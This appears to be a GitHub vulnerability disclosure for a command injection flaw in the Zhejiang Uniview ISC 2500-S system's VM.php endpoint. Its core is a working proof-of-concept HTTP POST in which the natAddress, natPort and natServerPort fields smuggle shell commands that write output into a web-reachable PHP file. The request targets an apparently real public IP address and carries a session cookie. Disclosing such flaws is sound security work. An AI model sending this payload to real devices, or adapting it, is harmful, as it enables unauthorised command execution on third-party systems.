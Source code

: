 Zhejiang Uniview ISC 2500-S system has command execution vulnerability

version:ISC 2500-S

Vulnerability location:/Interface/DevManage/VM.php

When entering the setNatConfig branch, the three parameters natAddress, natPort, and natServerPort are brought to the
exec() function for command execution without any filtering.
![image](https://github.com/dezhoutorizhao/cve/assets/92038690/d4150caf-c9d1-4fc2-941b-7b67d71a94e9)

![image](https://github.com/dezhoutorizhao/cve/assets/92038690/d6780753-a446-4e32-b737-f65ff6fdd553)

We write the id into 1.php through the natAddress, natPort, and natServerPort parameters. The POC is as follows

```
POST /Interface/DevManage/VM.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Referer: http://220.189.218.162:90/Page/SystemConfig/DevConfig/NatSet.php
x-requested-with: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: 220.189.218.162:90
Content-Length: 261
Pragma: no-cache
Cookie: logintime=Fri%20Jan%205%2018%3A46%3A56%20UTC+0800%202024; devLanguage=zh-CN; loginuser=admin; recordpasswd=false; PHPSESSID=4fa99df42dc0dad9b54b4034c74e8f91
Connection: close

cmd=setNatConfig&natAddress=1.1.1.2;echo%20`id`%20>%201.php&natPort=80;echo%20`id`%20>%201.php&natServerPort=;echo%20`id`%20>%201.php&GAJAX_USERID=0000&GAJAX_LOGINID=21822020240105183142&GAJAX_ORGCODE=0000&GAJAX_USERNAME=admin&GAJAX_ORGNAME=Root&GAJAX_ORGTYPE=2
```

![image](https://github.com/dezhoutorizhao/cve/assets/92038690/e0384c13-7582-4951-b07d-13541be3ad61)

Visit /Interface/LogReport/1.php

![image](https://github.com/dezhoutorizhao/cve/assets/92038690/243d1e8d-44b5-48fd-bc07-308d2f3c7197)
